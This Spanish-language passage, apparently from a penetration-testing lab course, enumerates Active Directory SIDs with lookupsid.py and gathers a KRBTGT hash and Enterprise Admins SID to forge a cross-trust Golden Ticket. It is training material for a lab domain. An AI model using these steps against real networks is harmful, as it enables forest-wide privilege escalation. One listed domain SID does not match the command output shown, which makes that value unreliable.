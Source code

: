 ```r
572: LOGISTICS\Denied RODC Password Replication Group (SidTypeAlias)
1001: LOGISTICS\lab_adm (SidTypeUser)
1002: LOGISTICS\ACADEMY-EA-DC02$ (SidTypeUser)
1103: LOGISTICS\DnsAdmins (SidTypeAlias)
1104: LOGISTICS\DnsUpdateProxy (SidTypeGroup)
1105: LOGISTICS\INLANEFREIGHT$ (SidTypeUser)
1106: LOGISTICS\htb-student_adm (SidTypeUser)
```

Podemos filtrar el ruido pasando el output del comando a grep y buscando solo el SID del domain.

### Looking for the Domain SID

```r
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

A continuación, podemos ejecutar nuevamente el comando, apuntando al Domain Controller de INLANEFREIGHT (DC01) en 172.16.5.5 y obtener el `SID S-1-5-21-3842939050-3880317879-2865463114` del domain y adjuntar el RID del grupo Enterprise Admins. [Aquí](https://adsecurity.org/?p=1001) hay una lista útil de SIDs conocidos.

### Grabbing the Domain SID & Attaching to Enterprise Admin's RID

```r
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```

Hemos recopilado los siguientes puntos de datos para construir el comando para nuestro ataque. Una vez más, usaremos el usuario inexistente `hacker` para forjar nuestro Golden Ticket.

- El hash de KRBTGT para el child domain: `9d765b482771505cbe97411065964d5f`
- El SID para el child domain: `S-1-5-21-2806153819-209893948-922872689`
- El nombre de un usuario objetivo en el child domain (¡no necesita existir!): `hacker`
- El FQDN del child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- El SID del grupo Enterprise Admins del root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`
